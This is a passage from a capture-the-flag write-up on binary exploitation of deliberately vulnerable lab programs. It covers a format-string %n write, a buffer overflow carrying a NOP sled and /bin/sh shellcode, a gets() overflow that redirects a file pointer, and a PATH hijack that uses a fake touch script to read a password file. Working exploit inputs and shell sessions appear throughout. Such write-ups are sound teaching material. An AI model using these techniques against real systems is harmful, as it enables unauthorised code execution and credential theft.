 We used DMA to access the memory, so written 1337 directly at the address pointed by the 7th position. Otherwise, we can use the basic
 
 ::

  ./format %08x.%08x.%08x.%08x.%08x.%1292u%n 
  
 If you see, we did 5 stack pop-up by using %08x, written the value to be written at 6th position and 7th position contains the address of secret. If you further see "%08x." is of eight characters + 1 of "." or 9 bytes, used five times i.e 9*\ 5=45 bytes and 1292+45 == 1337.

* In another example below,

 .. code:: c

    #include <stdlib.h>
    #include <stdio.h>
    #include <unistd.h>

    #define BUFSIZE 256

    void greet(int length){
        char buf[BUFSIZE];
        puts("What is your name?");
        read(0, buf, length);
        printf("Hello, %s\n!", buf);
    }

    void be_nice_to_people(){
        gid_t gid = getegid();
        setresgid(gid, gid, gid);
    }

    int main(int argc, char **argv){
        int length;
        be_nice_to_people();

        puts("How long is your name?");
        scanf("%d", &length);

        if(length < BUFSIZE) //don't allow buffer overflow
            greet(length);
        else
            puts("Length was too long!");
    }

 This program tries to prevent buffer overflows by first asking for the input length. It disregards the rest of the ouput. However, the program uses scanf. If we supply -1 as the length, we can bypass the overflow check: readelf -l no\_overflow can be used to find if there's any protection on the binary. Stack is executable, Furthermore, ASLR is not enabled. This makes it easy to stick in a shellcode plus a NOP sled and return to an address on the stack

 ::

    pico1139@shell:/home/no_overflow$ (echo -1; python -c 'print "A"*268+"\xd0\xd6\xff\xff"+"\x90"*200+" "\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\x80"'; cat) | ./no_overflow
    How long is your name?
    What is your name?
    Hello, AAAAAAAAAAAAAAAAAAAAAA...snip...

    id
    uid=11066(pico1139) gid=1007(no_overflow) groups=1017(picogroup)
    cat flag.txt
    what_is_your_sign

* In an another example where stack is not executable, If you read the code, you would find, we need to change the file\_name from not\_the\_flag.txt to flag.txt. In this example, they provided the address of the string "not\_the\_flag.txt" as 0x08048777. By putting a break point in puts in gdb and looking for the address of flag.txt.

 ::

    (gdb) br *puts
    Breakpoint 1 at 0x8048460
    (gdb) run
    Starting program: /home/what_the_flag/what_the_flag 

    Breakpoint 1, 0xf7e81ee0 in puts () from /lib/i386-linux-gnu/libc.so.6
    (gdb) x/s 0x08048777
    0x8048777:  "not_the_flag.txt"
    (gdb) x/s 0x08048778
    0x8048778:  "ot_the_flag.txt"
    (gdb) x/s 0x08048770
    0x8048770:  "le: %s"
    (gdb) x/s 0x0804877C
    0x804877c:  "he_flag.txt"
    (gdb) x/s 0x0804877D
    0x804877d:  "e_flag.txt"
    (gdb) x/s 0x0804877E
    0x804877e:  "_flag.txt"
    (gdb) x/s 0x0804877F
    0x804877f:  "flag.txt"

 .. code:: c

    #include <stdlib.h>
    #include <stdio.h>

    struct message_data{
        char message[128];
        char password[16];
        char *file_name;
    };

    void read_file(char *buf, char *file_path, size_t len){
        FILE *file;
        if(file= fopen(file_path, "r")){
            fgets(buf, len, file);
            fclose(file);
        }else{
            sprintf(buf, "Cannot read file: %s", file_path);
        }
    }

    int main(int argc, char **argv){
        struct message_data data;
        data.file_name = "not_the_flag.txt";

        puts("Enter your password too see the message:");
        gets(data.password);

        if(!strcmp(data.password, "1337_P455W0RD")){
            read_file(data.message, data.file_name, sizeof(data.message));
            puts(data.message);
        }else{
            puts("Incorrect password!");
        }

        return 0;
    }

 So we’ll ovewrite the file pointer with 0x804877f to make it read flag.txt. From gets()’s manual: gets() reads a line from stdin into the buffer pointed to by s until either a terminating newline or EOF, which it replaces with a null byte (‘\\0’). No check for buffer overrun is performed (see BUGS below). So by using the following input, we can overwrite the file pointer and still provide the correct password:

 ::

    1337_P455W0RD
    1337_P455W0RD\0aa\x7f\x87\x04\x08
    aa\x7f\x87\x04\x08

 We use this in the command line to get the flag

 ::

    pico83515@shell:/home/what_the_flag$ printf "1337_P455W0RD\0bb\x7f\x87\x04\x08" | ./what_the_flag
    Enter your password too see the message:
    Congratulations! Here is the flag: who_needs_%eip

    pico83515@shell:/home/what_the_flag$

Miscellanous Examples
=====================

Let's see some miscellanous examples away from Buffer/Format Vulnerabilities.

* So, we have a binary which when executed gives 

 ::

    behemoth2@melinda:/behemoth$ ./behemoth2 
    touch: cannot touch '13373': Permission denied

 Let's see what ltrace provides us

 ::

    behemoth2@melinda:/behemoth$ ltrace ./behemoth2 
    __libc_start_main(0x804856d, 1, 0xffffd794, 0x8048640 <unfinished ...>
    getpid()                                                                                                               = 14118
    sprintf("touch 14118", "touch %d", 14118)                                                                              = 11
    __lxstat(3, "14118", 0xffffd688)                                                                                       = -1
    unlink("14118")                                                                                                        = -1
    system("touch 14118"touch: cannot touch '14118': Permission denied
     <no return ...>
    --- SIGCHLD (Child exited) ---
    <... system resumed> )                                                                                                 = 256
    sleep(2000

 Let's see a truncated output of disassemble main, if we see getpid gets the binary pid, sprintf something in some buffer, lstat provides thefile status, unlink -call the unlink function to remove the specified file.

 ::

    (gdb) disassemble main 
    Dump of assembler code for function main:
       0x08048588 <+27>:    call   0x8048410 <getpid@plt>
       0x080485b3 <+70>:    call   0x8048450 <sprintf@plt>
       0x080485c7 <+90>:    call   0x80486c0 <lstat>
       0x080485df <+114>:   call   0x8048400 <unlink@plt>
       0x080485eb <+126>:   call   0x8048420 <system@plt>
       0x080485f7 <+138>:   call   0x80483e0 <sleep@plt>
       0x08048616 <+169>:   call   0x8048420 <system@plt>
       0x08048635 <+200>:   leave  
       0x08048636 <+201>:   ret 

 If you check the ltrace output

 ::

    system("touch 14118"touch: cannot touch '14118': Permission denied

 touch is being called without an absolute path, so we can take advantage of that. First we’ll create our own touch script that prints out the contents /etc/behemoth\_pass/behemoth3. Next, the PATH variable needs to be updated so that it looks at the current working directory first to ensure that our touch script is executed and not the actual touch program. PATH=/tmp:$PATH, you set /tmp to your primary location to search for binaries and the like... so if you create a file in /tmp/ called touch, it'll actually execute that instead of /usr/bin/touch

 ::

   behemoth2@melinda:/tmp/rahul2$ cat touch 
   cat /etc/behemoth_pass/behemoth3
   behemoth2@melinda:/tmp/rahul2$ history | grep PATH
   19  history | grep PATH
   behemoth2@melinda:/tmp/rahul2$ PATH=/tmp/rahul2:$PATH /behemoth/behemoth2 
   **********
